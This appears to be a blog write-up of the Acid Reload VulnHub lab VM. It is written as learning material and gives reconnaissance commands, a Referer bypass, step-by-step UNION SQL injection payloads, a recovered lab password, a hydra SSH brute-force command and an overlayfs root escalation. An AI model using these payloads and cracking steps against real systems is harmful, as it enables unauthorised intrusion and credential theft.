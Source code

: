 ```yaml
---
layout: post
title: "acid_reload"
date: 2016-09-11 08:58:02 -0500
comments: true
categories: 
---
```


##Tools:

* netdiscover
* Nmap
* Wfuzz
* DirBuster
* Burp


###Vulnerabilities:


<!--more-->
Use netdiscover to detect target IP address

`netdiscover -i eth0 -r 192.168.41.0/24`

{% img  /images/blog/vulhub/acid_reload/Selection_001.png   [title manually exploit [alt text]] %}

192.168.41.170is the target.

Then run nmap to detect opening ports and running services on the target machine.

`nmap -sV -v -O -A -T5 192.168.41.171 -p-`

{% img  /images/blog/vulhub/acid_reload/Selection_002.png   [title manually exploit [alt text]] %}

port 22 and 33447 are opening.

Port 33447 is filter, I run nmap again

`nmap -sV -v -O -A -T5 192.168.41.171 -p 33447`

{% img  /images/blog/vulhub/acid_reload/Selection_003.png   [title manually exploit [alt text]] %}

now I know it is running http service.

use nikto to scan:

`nikto -h 192.168.41.171:33447`

{% img  /images/blog/vulhub/acid_reload/Selection_004.png   [title manually exploit [alt text]] %}

find a hidden path '/bin'

check the page `192.168.41.171:33447/bin`

{% img  /images/blog/vulhub/acid_reload/Selection_005.png   [title manually exploit [alt text]] %}

use DirBuster to scan

{% img  /images/blog/vulhub/acid_reload/Selection_006.png   [title manually exploit [alt text]] %}

use Burpsuit to check when I try to get `/bin/dashboard.php`

{% img  /images/blog/vulhub/acid_reload/Selection_007.png   [title manually exploit [alt text]] %}

it is redirected to `/bin/includes/validation.php`. I can use referer bypass

change http request to `GET /bin/dashboard.php HTTP/1.1` and referer to `Referer: http://192.168.41.171:33447/bin/includes/validation.php`

{% img  /images/blog/vulhub/acid_reload/Selection_008.png   [title manually exploit [alt text]] %}

forward the traffic

{% img  /images/blog/vulhub/acid_reload/Selection_009.png   [title manually exploit [alt text]] %}

Bypass successfully.

check the source code

{% img  /images/blog/vulhub/acid_reload/Selection_010.png   [title manually exploit [alt text]] %}

got an link `l33t_haxor.php`

check the page code
{% img  /images/blog/vulhub/acid_reload/Selection_011.png   [title manually exploit [alt text]] %}

find `l33t_haxor.php?id=` looks like sqli

Let's verify

insert

`http://192.168.41.171:33447/bin/l33t_haxor.php?id=1'`

{% img  /images/blog/vulhub/acid_reload/Selection_012.png   [title manually exploit [alt text]] %}

easy sqli

`http://192.168.41.171:33447/bin/l33t_haxor.php?id=1' and true--+` no output, so, it is bracket enclosed single quote.

now lets check how many columns we need by inserting null

```
http://192.168.41.171:33447/bin/l33t_haxor.php?id=1')union(select(null)from(information_schema.columns)WHERE'1'='1
http://192.168.41.171:33447/bin/l33t_haxor.php?id=1')union(select(null),(null)from(information_schema.columns)WHERE'1'='1
http://192.168.41.171:33447/bin/l33t_haxor.php?id=1')union(select(null),(null),(null)from(information_schema.columns)WHERE'1'='1
```

when there are two 'null', no error come back, so the column number is 2.

next check which column holds string value.

`http://192.168.41.171:33447/bin/l33t_haxor.php?id=1')union(select('test'),(null)from(information_schema.columns)WHERE'1'='1`

no response

`http://192.168.41.171:33447/bin/l33t_haxor.php?id=1')union(select(null),('test')from(information_schema.columns)WHERE'1'='1`


{% img  /images/blog/vulhub/acid_reload/Selection_013.png   [title manually exploit [alt text]] %}

now we know column holds string value

now get the version

`http://192.168.41.171:33447/bin/l33t_haxor.php?id=1')union(select(NULL),(@@VERSION)from(information_schema.columns)WHERE'1'='1`


{% img  /images/blog/vulhub/acid_reload/Selection_014.png   [title manually exploit [alt text]] %}

get user,

`http://192.168.41.171:33447/bin/l33t_haxor.php?id=1')union(select(NULL),(user())from(information_schema.columns)WHERE'1'='1`

{% img  /images/blog/vulhub/acid_reload/Selection_015.png   [title manually exploit [alt text]] %}

get table name

`http://192.168.41.171:33447/bin/l33t_haxor.php?id=1')union(select(null),GROUP_CONCAT(DISTINCT(table_schema))from(information_schema.tables)WHERE'a'='a`

{% img  /images/blog/vulhub/acid_reload/Selection_016.png   [title manually exploit [alt text]] %}

got four databases information_schema,mysql,performance_schema,secure_login


get table name

`http://192.168.41.171:33447/bin/l33t_haxor.php?id=-1')union(select(null),GROUP_CONCAT(DISTINCT(table_name))from(information_schema.columns)WHERE(table_schema)=database()and'test'like'test`

{% img  /images/blog/vulhub/acid_reload/Selection_017.png   [title manually exploit [alt text]] %}


`wget http://192.168.41.171:33447/UB3R/strcpy.exe`

check the file

`file strcpy.exe`

`strcpy.exe: PDF document, version 1.5`. a pdf file in it.


use foremost to recover

`foremost strcpy.exe`

in folder `output`,get a folder called rar and there is a rar file, unzip it , get a file called `lol.jpg`

try to use foremost on this file, get another rar, unzip it get a file called `Avinash.contact`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<c:contact c:Version="1" xmlns:c="http://schemas.microsoft.com/Contact" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:MSP2P="http://schemas.microsoft.com/Contact/Extended/MSP2P" xmlns:MSWABMAPI="http://schemas.microsoft.com/Contact/Extended/MSWABMAPI">
	<c:CreationDate>2015-08-23T11:39:18Z</c:CreationDate><c:Extended><MSWABMAPI:PropTag0x3A58101F c:ContentType="binary/x-ms-wab-mapi" c:type="binary">AQAAABIAAABOAG8AbwBCAEAAMQAyADMAAAA=</MSWABMAPI:PropTag0x3A58101F></c:Extended>
	<c:ContactIDCollection><c:ContactID c:ElementID="599ef753-f77f-4224-8700-e551bdc2bb1e"><c:Value>0bcf610e-a7be-4f26-9042-d6b3c22c9863</c:Value></c:ContactID></c:ContactIDCollection><c:EmailAddressCollection><c:EmailAddress c:ElementID="0745ffd4-ef0a-4c4f-b1b6-0ea38c65254e"><c:Type>SMTP</c:Type><c:Address>acid.exploit@gmail.com</c:Address><c:LabelCollection><c:Label>Preferred</c:Label></c:LabelCollection></c:EmailAddress><c:EmailAddress c:ElementID="594eec25-47bd-4290-bd96-a17448f7596a" xsi:nil="true"/></c:EmailAddressCollection><c:NameCollection><c:Name c:ElementID="318f9ce5-7a08-4ea0-8b6a-2ce3e9829ff2"><c:FormattedName>Avinash</c:FormattedName><c:GivenName>Avinash</c:GivenName></c:Name></c:NameCollection><c:PersonCollection><c:Person c:ElementID="865f9eda-796e-451a-92b1-bf8ee2172134"><c:FormattedName>Makke</c:FormattedName><c:LabelCollection><c:Label>wab:Spouse</c:Label></c:LabelCollection></c:Person></c:PersonCollection><c:PhotoCollection><c:Photo c:ElementID="2fb5b981-cec1-45d0-ae61-7c340cfb3d72"><c:LabelCollection><c:Label>UserTile</c:Label></c:LabelCollection></c:Photo></c:PhotoCollection></c:contact>
```

find a base64 encoded `AQAAABIAAABOAG8AbwBCAEAAMQAyADMAAAA=`, its NooB@123

create a dict file

```
Avinash
avinash
Makke
makke
acid
acid.exploit
acid.exploit@gmail.com
NooB@123
```


use hydra to crack

`hydra -L dict.txt -P dict.txt  192.168.41.171 ssh -s 22`

get login: makke   password: NooB@123

find `.bash_history` file

{% img  /images/blog/vulhub/acid_reload/Selection_018.png   [title manually exploit [alt text]] %}

find an interesting file `overlayfs`

`locate overlayfs`

in `/bin`

`ls -alh overlayfs`

`-rwxr-xr-x 1 root root 12K Aug 24  2015 overlayfs`

which is overlayfs local root exploit file

run it 
get the root


{% img  /images/blog/vulhub/acid_reload/Selection_019.png   [title manually exploit [alt text]] %}